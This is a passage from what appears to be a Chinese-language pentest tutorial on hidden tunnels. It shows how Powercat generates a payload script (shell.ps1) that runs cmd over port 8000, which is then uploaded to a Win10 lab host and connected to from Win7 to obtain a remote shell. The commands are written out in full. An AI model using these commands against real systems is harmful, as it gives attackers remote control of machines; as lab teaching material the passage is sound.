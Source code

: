 （6）用Powercat生成Payload反弹shell

用Powercat生成的Payload也有正向和反向之分，且可以对其编码。

尝试生成一个简单的Payload，在Win7中执行如下命令：

```
powercat -l -p 8000 -e cmd -v -g >> shell.ps1
```

![](img/隐藏通信隧道基础知识/57.png)

然后把shell.ps1上传给Win10，并运行，之后Win7执行命令成功反弹shell：

```
powercat -c 192.168.2.4 -p 8000 -v
```
